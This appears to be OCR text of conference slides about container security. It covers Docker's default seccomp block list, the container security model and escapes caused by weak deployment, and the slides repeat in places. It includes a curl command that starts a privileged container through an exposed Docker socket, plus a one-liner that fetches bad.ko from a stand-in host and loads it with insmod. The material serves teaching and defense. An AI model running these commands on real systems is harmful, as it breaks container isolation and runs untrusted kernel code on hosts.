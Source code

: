 Blocked (SCMP_ACT_ERRNO)

bpf clone fanotify_init mount perf_event_open setns umount unshare
Requires CAP_SYS_ADMIN

Docker's default seccomp policy at a glance

seccomp

kexec_file_load kexec_load membarrier migrate_pages move_pages nice pivot_root sigaction

sigpending sigprocmask sigsuspend _sysctl sysfs uselib userfault_fd vm86

Blocked (SCMP_ACT_ERRNO)

bpf clone fanotify_init mount perf_event_open setns umount unshare
Requires CAP_SYS_ADMIN

For a better example of reduced attack surface, checkout @jessfraz http://contained.af

seccomp

kexec_file_load kexec_load membarrier migrate_pages move_pages nice pivot_root sigaction

sigpending sigprocmask sigsuspend _sysctl sysfs uselib userfault_fd vm86

Blocked (SCMP_ACT_ERRNO)

bpf clone fanotify_init mount perf_event_open setns umount unshare
Requires CAP_SYS_ADMIN

Container Security Model

What you think you can do Capabilities

What you can actually do LSM

Credentials

seccomp

Where you can do it UUsseerrNNSS ccggrroouuppss nsproxy

Part I: Escape via Weakness in Deployment

Bad idea #1: Exposed Docker Socket
The docker socket is what you talk to whenever you run a Docker command. You can also access it with curl:
$ curl --unix-socket $SOCKETPATH -d '{"Image":"evil", "Privileged":"true"}' -H 'Content-Type: application/json' 0/containers/create {"Id":"22093d29e3c35e52d1d1dd0e3540e0792d4b5e6dc1847e69a0e5bdcd2d3d9982","W arnings":null}
$ curl -XPOST --unix-socket $SOCKETPATH 0/containers/22093..9982/start $ # :)

Bad idea #2: --privileged container
Running a Docker container with --privileged removes most of the isolation provided by containers.
$ curl -O exploit.delivery/bad.ko && insmod bad.ko

Bad idea #2: --privileged container
Privileged containers can also register usermode program helpers

Segue: Usermode Helper Programs call_usermodehelper_exec()
